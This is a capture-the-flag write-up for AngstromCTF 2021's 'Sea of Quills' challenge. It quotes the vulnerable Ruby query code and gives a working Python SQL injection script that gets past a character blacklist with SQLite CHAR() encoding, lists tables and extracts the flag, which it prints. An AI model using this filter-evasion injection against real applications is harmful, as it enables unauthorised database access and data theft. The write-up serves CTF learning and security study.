 # AngstromCTF2021 Sea of Quills
Looking at the sourcecode we notice the lines:
```
blacklist = ["-", "/", ";", "'", "\""]

blacklist.each { |word|
  if cols.include? word
    return "beep boop sqli detected!"
  end
}


if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
  return "bad, no quills for you!"
end

@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

We immediately see that the parameter `cols` is injectable. We do however need to take care that our query dosen't use any of the blacklisted characters. Fortunatly the SQLite dbms has a function called `CHAR` that takes integers as arguments and convert them to their ascii representation.

We can now code up our payload:
```
import requests

url = "https://seaofquills.2021.chall.actf.co/quills"

# Find table names
# We can use the CHAR method to insert strings and circumvent the filter
# CHAR(0x74,0x61,0x62,0x6c,0x65) outputs 'table'
payload = {
    "limit":"5",
    "offset":"1",
    "cols":"name,name,name FROM sqlite_master WHERE type=CHAR(0x74,0x61,0x62,0x6c,0x65) UNION select desc,url,name"
    }

r = requests.post(url,params=payload)
print(r.text)
# This returns the tablename `flagtable`

# Use tablename to extract flag
payload = {
    "limit":"5",
    "offset":"1",
    "cols":"* FROM flagtable UNION select desc"
}

r = requests.post(url,params=payload)
print(r.text)
```
Running the solution we find the flag: `actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}`
